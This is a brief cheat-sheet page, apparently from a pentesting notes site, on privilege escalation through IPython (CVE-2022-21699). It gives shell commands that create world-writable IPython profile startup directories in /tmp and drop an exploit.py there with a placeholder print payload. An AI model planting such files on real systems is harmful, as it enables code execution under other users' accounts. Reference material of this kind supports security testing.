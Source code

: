 ```yaml
---
title: IPython PrivEsc
desc: Interective Python (IPython) is a command shell for interective computing in multiple programming languages.
tags: [IPython, Python, PrivEsc, Privilege]
alts: [Python-PrivEsc]
render_with_liquid: false
---
```


## [CVE-2022-21699](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x){:target="_blank"}{:rel="noopener"}

```sh
# -m: file mode (rwx)
mkdir -m 777 /tmp/profile_default
mkdir -m 777 /tmp/profile_default/startup
echo 'print("stealing your private secrets")' > /tmp/profile_default/startup/exploit.py
```